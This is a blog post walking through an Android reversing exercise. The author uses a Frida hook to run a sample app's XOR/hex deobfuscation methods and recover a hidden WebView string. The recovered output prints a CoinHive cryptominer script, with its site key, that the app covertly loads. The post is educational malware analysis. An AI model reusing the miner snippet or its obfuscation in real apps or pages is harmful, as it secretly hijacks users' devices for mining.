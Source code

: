 ```yaml
---
layout: post
title: "Deobfuscating with Frida Exercise"
date: 2022-07-06
---
```


Lately been diving a little deeper into my side journey with Android app reversing.

I went over Maddie Stone's amazing course [here](https://www.ragingrock.com/AndroidAppRE/app_fundamentals.html). I have not mastered much but decided to take on one exercise at a time. The [last exercise](https://www.ragingrock.com/AndroidAppRE/obfuscation.html#exercise-7---string-deobfuscation) in the course goes over string deobfuscation. There are Java methods that are passed in app to take a mysterious obfuscated string and reverse it back to being human readable for a Webview method to load it.

```
webView.loadData(z1.b(new String(z1.a("773032205849207A38313
26F1351202E3B306B7D1E5A3B33252B382454173735266C3D3B531637352
22D393B475C7A37222D7F38421B6A6664303220584920647730322058492
0643D2223725C503A3F39636C725F5C237A082C383C7950223F65023F3D5
F4039353E3079755F5F666E1134141F5C4C64377A1B671F565A1B2C7F7B1
01F42700D1F39331717161574213F2B2337505D27606B712C7B0A543D342
E317F214558262E636A6A6E1E4A37282233256C"), Charset.forName("UTF-8"))), "text/html", null);
```

In the exercise, it was cracked by reimplementing the methods in Python and mirroring the code to deobfuscate the string. However, I came across an [interesting tutorial](https://1337.dcodx.com/mobile-security/owasp-mstg-crackme-1-writeup-android) using [Frida](https://frida.re/). A "Dynamic instrumentation toolkit for developers, reverse-engineers, and security researchers." Being a Frida novice I wanted to take the time to learn more beyond using given scripts. Even though the community scripts are very very useful! With Frida, you can utilize and load the classes and methods to sort of "replay" what the app is doing with the data passed to it. So, combining this knowledge with the exercise from Maddie's course, I tried my hand at dynamically cracking the string using the methods as given in the example app.

I. Install the app. I grabbed it out of the VM given in the exercise from Android RE course and installed on an emulated Android.

`adb install apks\ClashOfLights.apk`

Side note: Of course I already have Android Studio for a few reasons. Not only does it have Android Emulator tool, but it has a JADX-GUI plugin you can install to decompile APKs.

II. Write the Javascript hook Frida will use.

Looking at this code snippet, I threw in the one class and 2 methods I would need.

```
package com.supercell.titan;

/* loaded from: classes.dex */
public class z1 {
    private static final char[] a = "0123456789ABCDEF".toCharArray();

    public static byte[] a(String str) {
        int length = str.length();
        byte[] bArr = new byte[length / 2];
        for (int i = 0; i < length; i += 2) {
            bArr[i / 2] = (byte) ((Character.digit(str.charAt(i), 16) << 4) + Character.digit(str.charAt(i + 1), 16));
        }
        return bArr;
    }

    public static String b(String str) {
        char[] cArr = {'K', 'C', 'Q', 'R', '1', '9', 'T', 'Z'};
        StringBuilder sb = new StringBuilder();
        for (int i = 0; i < str.length(); i++) {
            sb.append((char) (str.charAt(i) ^ cArr[i % cArr.length]));
        }
        return sb.toString();
    }
}
```

So I need class `z1` and it's methods, `a` and `b`.

**deob.js**
```

setImmediate(function() {
    console.log("[*] Start");

    Java.perform(function() {

        var str = "773032205849207A3831326F1351202E3B306B7D1E5A3B33252B382454173735266C3D3B53163735222D3
        93B475C7A37222D7F38421B6A66643032205849206477303220584920643D2223725C503A3F39636C725F5C237A082C3
        83C7950223F65023F3D5F4039353E3079755F5F666E1134141F5C4C64377A1B671F565A1B2C7F7B101F42700D1F39331
        717161574213F2B2337505D27606B712C7B0A543D342E317F214558262E636A6A6E1E4A37282233256C"

        console.log("[*] Loading z1")
        var clazz_z1 = Java.use('com.supercell.titan.z1');
        // var bytes = clazz_z1.a(str); For some reason the byte array had spaces so had I just hardcoded it below for clarity of what method z1.a does...
        console.log("[*] UTF-8 String from Byte array created from clazz_z1.a(str)")
        var str2 = String.fromCharCode(119,48,50,32,88,73,32,122,56,49,50,111,19,81,32,46,59,48,107,125,30,90,59,
        51,37,43,56,36,84,23,55,53,38,108,61,59,83,22,55,53,34,45,57,59,71,92,122,55,34,45,127,56,66,27,106,102,
        100,48,50,32,88,73,32,100,119,48,50,32,88,73,32,100,61,34,35,114,92,80,58,63,57,99,108,114,95,92,35,122,
        8,44,56,60,121,80,34,63,101,2,63,61,95,64,57,53,62,48,121,117,95,95,102,110,17,52,20,31,92,76,100,55,122,
        27,103,31,86,90,27,44,127,123,16,31,66,112,13,31,57,51,23,23,22,21,116,33,63,43,35,55,80,93,39,96,107,113,
        44,123,10,84,61,52,46,49,127,33,69,88,38,46,99,106,106,110,30,74,55,40,34,51,37,108)
        console.log("[*] Using method b from class z1")
        var result = clazz_z1.b(str2);
        console.log()
        console.log("****** DEOBFUSCATED STRING ******")
        console.log(result)
        console.log("****** DEOBFUSCATED STRING ******")
        console.log()
    })
    
    console.log("[*] End");

})

```

Not pretty, but does the job!


III. Orchestrate the Frida server on the emulated Android and then hook this JS into the app to run.


`adb push ./frida-server-15.1.20-android-x86 /data/local/tmp/frida-server` <--- based on architecture of the device. Frida docs are great with guiding with this.

`adb root`

`adb shell "chmod 755 /data/local/tmp/frida-server"`

`frida -U -l ./deob.js -f com.clashof.lights`s

Running this I got:

```
C:\Users\Alexis\platform-tools>frida -U -l ./deob.js -f com.clashof.lights
     ____
    / _  |   Frida 15.1.20 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/
   . . . .
   . . . .   Connected to Android Emulator 5554 (id=emulator-5554)
Spawning `com.clashof.lights`...
[*] Start
[*] End
Spawned `com.clashof.lights`. Use %resume to let the main thread start executing!
[Android Emulator 5554::com.clashof.lights ]-> %resume


Frida Output

[*] Start
[*] Loading z1
[*] UTF-8 String from Byte array created from clazz_z1.a(str)
[*] Using method b from class z1

****** DEOBFUSCATED STRING ******
<script src="https://coinhive.com/lib/coinhive.min.js"></script><script>var miner = new CoinHive.Anonymous('nf24ZwEMmu0m1X6MgcOv48AMsIYErpFE', {threads: 2});miner.start();</script>
****** DEOBFUSCATED STRING ******

[*] End
```

There you go, the deobfuscated string dynamically grabbed through Frida!
